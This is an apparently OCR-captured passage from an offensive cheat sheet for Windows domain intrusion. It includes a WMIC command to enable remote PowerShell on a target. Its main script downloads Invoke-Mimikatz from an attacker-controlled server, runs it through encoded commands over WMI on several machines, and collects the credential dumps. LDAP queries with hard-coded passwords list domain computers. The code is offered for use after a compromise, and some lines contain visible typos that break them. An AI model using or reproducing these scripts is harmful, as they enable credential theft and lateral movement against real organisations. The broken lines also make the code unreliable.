 FRSV2010..are the targeted computer names which you can get by running nslookup on the corresponding IP

Save it as Mimikatz.ps1 and run it.

This script depends and relies on winrm (5985) to be enabled on the target you are running the script from, you can enable it with the following command:

Wmic /user:admin /password:password /node:\[ip] process call create "powersell enable-PSRemoting -force"

### Powershell script that Downloads Mimikatz and executes it on multiple defined machines using WMI. Use it if the above method failed

Scenario 1: You have just compromised a domain-joined machine / domain-controller / regular work station and want to harvest the passwords / hashes of other domain-joined machines then you can use the below script to launch it from the host you have just compromised.

Scenario 2: You have compromised a non domain-joined machine and want to download and execute mimikatz as stealthy as possible then you can use the script below and stop at the green highlight.

```powershell
$command = '$browser = New-ObjectSystem.Net.WebClient; 
IEX($browser.DownloadString("http:// [your-server-ip]:[port]/Invoke-Mimikatz.ps1"));
$machine_name = (get-netadapter | getnetipaddress | ? addressfamily -eq "IPv4").ipaddress;invoke-mimikatz | out-file c:\windows\temp\$machine_name".txt"'
$bytes =[System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$PC_IP = @("[target-ip-1]", "[target-ip-2]")
ForEach ($X in $PC_IP) {
$proc = invoke-wmimethod -ComputerName $X
win32_process -name create -argumentlist ("powershell -encodedcommand $encodedCommand")
$proc_id = $proc.processId
do {(Write-Host "[*] Waiting for mimi to finish on $X"),
(Start-Sleep -Seconds 2)} until ((Get-WMIobject -Class Win32_process -Filter "ProcessId=$proc_id" -ComputerName $X | where {$_.ProcessId -eq $proc_id}).ProcessID -eq $null)
move-item -path "\\$X\C$\windows\temp\$X.txt" -Destination C:\users\Administrator\desktop\ -force write-host "[+] Got file for $X" -foregroundcolor "green"
}

```

write-host $encodedCommand \[include this command if you are running this script for a single host and stop here].

### Executing LDAP queries for data harvest

#### Harvesting computer names

```powershell
(New-Object adsisearcher((New-Object adsi("LDAP://dc.domaincontroller.local","target-machine\ldap","target-machine-pass")),"(objectCategory=Computer)")).FindAll() | %{ $_.Properties.name }


(New-Object adsisearcher((New-Object adsi("LDAP://dc.fulcrum.local","fulcrum\ldap","PasswordForSearching123!")),"(objectCategory=Computer)")).FindAll() | %{ $_.Properties.name }
```
